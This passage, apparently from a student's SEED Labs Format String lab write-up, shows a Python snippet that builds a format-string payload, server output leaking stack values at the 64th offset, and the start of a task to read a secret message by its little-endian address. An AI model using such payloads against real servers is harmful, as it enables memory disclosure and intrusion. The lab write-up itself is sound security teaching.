 ```python
# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "AAAA" + " %08x"*64

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[0:0+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

In the output we see our input (AAAA), some address and values printed, and finally the bytes from our input (414141):

```bash
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd550
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd478
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | AAAA 11223344 00001000 08049db5 080e5320 080e61c0 ffffd550 ffffd478 080e62d4 080e5000 ffffd518 08049f7e ffffd550 00000000 00000064 08049f47 080e5320 000005dc 000005dc ffffd550 ffffd550 080e9720 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 a3062500 080e5000 080e5000 ffffdb38 08049eff ffffd550 000005dc 000005dc 080e5320 00000000 00000000 00000000 ffffdc04 00000000 00000000 00000000 000005dc 41414141The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

From this task, we conclude that to access the variable we sent in the beginning of the input, we must access the 64º position in memory (We'll keep this number in mind, as hinted that it will be essential for most of the subsequent tasks).

### Task 2.B

In this task, the goal is to print the [secret message string](https://github.com/seed-labs/seed-labs/blob/master/category-software/Format_String/Labsetup/server-code/format.c#L23) to the console. The address of this string (`0x080b4008`) is printed from the server when a request is made, as seen below:

```bash
(...)
server-10.9.0.5  | The secret message's address:  0x080b4008
(...)
```

In the provided python script we change the *number* variable to the desired address (`0x080b4008`), and since the program has a little-endian architecture we must store its bytes in the reverse order, which is easily done with the `byteorder='little'` argument in the `.to_bytes()` function.

